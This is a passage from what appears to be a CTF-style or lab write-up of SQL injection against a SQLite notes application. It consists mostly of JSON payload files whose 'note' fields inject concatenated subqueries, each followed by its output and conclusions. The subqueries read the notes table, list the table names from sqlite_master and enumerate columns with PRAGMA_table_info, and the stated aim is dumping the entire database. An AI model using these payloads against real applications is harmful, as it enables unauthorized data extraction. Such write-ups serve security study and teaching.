 ### `text_fix.json`
```json
{
  "2006": {
    "encrypted": 0,
    "note": "' || CAST((SELECT note FROM notes) AS TEXT) || '",
    "title": "Note displayed as text"
  }
}
```
#### Output
```
950902d52cf09d9c25bc476361119bfd.f0a6f3dfa5163aff51b4bd3123bb20db907a4532b58a9adf331948c787b14883ce87777b9b367a78b95a34ab9c771171696aca7087ed8da47f3496b6d7b55bea
```
#### Conclusions
- After manually casting the note as text, we received the note. This means that we can access the `notes` table properly.
- It looks like the data in here is encrypted, however it's too early to say anything valid about it.

### `table_names.json`
```json
{
  "2007": {
    "encrypted": 0,
    "note": "' || CAST((SELECT GROUP_CONCAT(name, ', ') FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%') AS TEXT) || '",
    "title": "Table names"
  }
}
```
#### Output
```
user, notes, visits
```
#### Conclusions
We finally managed to print the names of the tables. That puts us one step closer to dumping the entire database.

### `column_names.json`
```json
{
  "3001": {
    "encrypted": 0,
    "note": "' || CAST((SELECT GROUP_CONCAT(name, ' | ') FROM PRAGMA_table_info('user')) AS TEXT) || '",
    "title": "user"
  },
  "3002": {
      "encrypted": 0,
      "note": "' || CAST((SELECT GROUP_CONCAT(name, ' | ') FROM PRAGMA_table_info('notes')) AS TEXT) || '",
      "title": "notes"
  },
  "3003": {
      "encrypted": 0,
      "note": "' || CAST((SELECT GROUP_CONCAT(name, ' | ') FROM PRAGMA_table_info('visits')) AS TEXT) || '",
      "title": "visits"
  }
}
```